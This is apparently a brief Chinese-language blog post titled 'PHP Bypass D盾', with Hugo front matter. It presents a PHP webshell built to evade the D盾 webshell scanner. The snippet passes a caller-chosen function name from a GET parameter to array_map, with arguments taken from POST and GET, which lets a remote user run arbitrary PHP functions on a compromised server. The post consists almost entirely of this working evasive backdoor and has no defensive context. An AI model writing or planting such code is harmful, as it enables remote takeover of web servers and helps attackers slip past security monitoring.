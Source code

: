 ```yaml
---
title: "PHP Bypass D盾"
date: 2018-02-06T00:00:00+08:00
draft: false
tags: ['php','bypass']
categories: ['web','bypass']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


PHP Bypass D盾

<!--more-->

**原理**

通过 array_map 对 GET 的参数进行回调, 其中 1 为回调函数, 2 和 3 分别为在回调函数内的 POST 和 GET 参数

```
<?php

@$a = array($_POST['2'],$_GET['3']);
@array_map($b=$_GET['1'],$c=$a);

?>
```